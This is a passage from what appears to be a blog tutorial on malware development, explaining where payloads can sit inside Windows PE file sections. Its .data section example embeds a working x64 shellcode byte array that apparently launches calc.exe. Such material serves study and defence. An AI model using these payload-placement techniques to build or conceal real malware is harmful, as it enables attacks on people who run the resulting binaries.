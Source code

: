 ```yaml
---
categories:
- Cybersecurity
- Malware Development
date: 2024-04-15 13:00:00 +0530
description: This technical guide explores various sections within PE files where malware payloads can be stored, including .data, .rdata, .text, and .rsrc, detailing their characteristics, implications, and methods for accessing and updating payloads
img_path: /assets/
published: true
tags:
- malware development
- payload
- WinAPI 
title: 'Payload Placement (.data, rdata, .text, .rsrc)'
---
```


## Introduction

As a malware developer, one will have several options as to where the payload can be stored within the PE file. Depending on the choice, the payload will reside in a different section within the PE file. Payloads can be stored in one of the following PE sections:

- .data
- .rdata
- .text
- .rsrc

## .data Section

---

The .data section of a PE file is a section of a program’s executable file that contains initialized global and static variables. The section is readable and writable, making it suitable for an encrypted payload that requires decryption during runtime. If the payload is a global or local variable, it will be stored in the .data section, depending on the compiler settings.

```c
#include <Windows.h>
#include <stdio.h>

unsigned char payload[] = {
	"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00"
```